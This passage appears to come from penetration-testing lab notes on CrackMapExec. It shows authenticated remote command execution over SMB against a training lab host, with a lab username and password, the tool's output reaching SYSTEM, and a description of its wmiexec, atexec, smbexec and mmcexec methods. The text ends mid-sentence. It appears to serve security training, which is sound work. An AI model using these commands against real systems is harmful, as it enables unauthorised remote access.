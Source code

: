 ### **Execute Command as Robert**

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -x whoami

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
SMB         10.129.204.133  445    MS01             [+] Executed command 
SMB         10.129.204.133  445    MS01             inlanefreight\robert
```

***

## Command Execution with SMB

CME has four (4) different command execution methods:

<table><thead><tr><th width="40"></th><th></th></tr></thead><tbody><tr><td>1.</td><td><code>wmiexec</code> executes commands via WMI (file written on disk)</td></tr><tr><td>2.</td><td><code>atexec</code> executes commands by scheduling a task with the windows task scheduler (fileless, not working on the latest version of Windows)</td></tr><tr><td>3.</td><td><code>smbexec</code> executes commands by creating and running a service (fileless, not working on the latest version of Windows)</td></tr><tr><td>4.</td><td><code>mmcexec</code> is similar to the wmiexec method, but the commands are executed through the Microsoft Management Console (MMC).</td></tr></tbody></table>

{% hint style="info" %}
**Note:** Not all methods may work on all computers.
{% endhint %}

By default, CME will fail over to a different execution method if one fails. It attempts to execute commands in the following order:

| 1. `wmiexec` | 2. `atexec` | 3. `smbexec` | 4. `mmcexec` |
| ------------ | ----------- | ------------ | ------------ |

If we want to force CME to use only one execution method, we can specify which one using the `--exec-method` flag, for example:

### **Command Execution via SMBExec Method**

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' --exec-method smbexec -x whoami

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
SMB         10.129.204.133  445    MS01             [+] Executed command via smbexec
SMB         10.129.204.133  445    MS01             nt authority\system
```

Alternatively, we can execute commands with PowerShell using the option `-X`:
